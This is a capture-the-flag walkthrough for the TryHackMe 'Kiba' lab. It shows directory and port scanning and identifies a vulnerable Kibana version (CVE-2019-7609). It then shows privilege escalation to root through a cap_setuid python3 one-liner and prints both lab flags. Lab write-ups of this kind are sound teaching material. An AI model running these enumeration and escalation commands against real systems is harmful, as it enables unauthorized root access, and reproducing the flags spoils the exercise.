 link: https://tryhackme.com/room/kiba
## Enumeration

<code>
┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.124.166 -x .txt,.php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2024/02/16 02:48:08 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1291]
/server-status        (Status: 403) [Size: 278] 
                                                
===============================================================
2024/02/16 03:43:29 Finished
===============================================================
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Kiba]
└─$ nmap  -p- -Pn 10.10.124.166
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-16 03:57 CST
Nmap scan report for 10.10.124.166
Host is up (0.036s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent

Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds

## found Kibana Version: 6.5.4
link: https://systemweakness.com/this-kibana-vulnerability-can-give-you-rce-in-a-snap-kibana-cve-2019-7609-7de49112139e

kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
kiba@ubuntu:/home/kiba$ THM{1s_easy_pwn3d_k1bana_w1th_rce}
THM{1s_easy_pwn3d_k1bana_w1th_rce}
THM{1s_easy_pwn3d_k1bana_w1th_rce}: command not found
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
kiba@ubuntu:/home/kiba$ 

## Privilage Escalation 

iba@ubuntu:/$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

kiba@ubuntu:/home/kiba$ ls -la
total 110664
drwxr-xr-x  6 kiba kiba      4096 Mar 31  2020 .
drwxr-xr-x  3 root root      4096 Mar 31  2020 ..
-rw-------  1 kiba kiba      9605 Mar 31  2020 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31  2020 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31  2020 .bashrc
drwx------  2 kiba kiba      4096 Mar 31  2020 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31  2020 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31  2020 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31  2020 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt

kiba@ubuntu:/home/kiba$ cd .hackmeplease
kiba@ubuntu:/home/kiba/.hackmeplease$ ls -la
total 4356
drwxrwxr-x 2 kiba kiba    4096 Mar 31  2020 .
drwxr-xr-x 6 kiba kiba    4096 Mar 31  2020 ..
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3

kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<kmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'   
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
pwd          
/home/kiba/.hackmeplease
cd /root
ls
root.txt
ufw
cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}

</code>
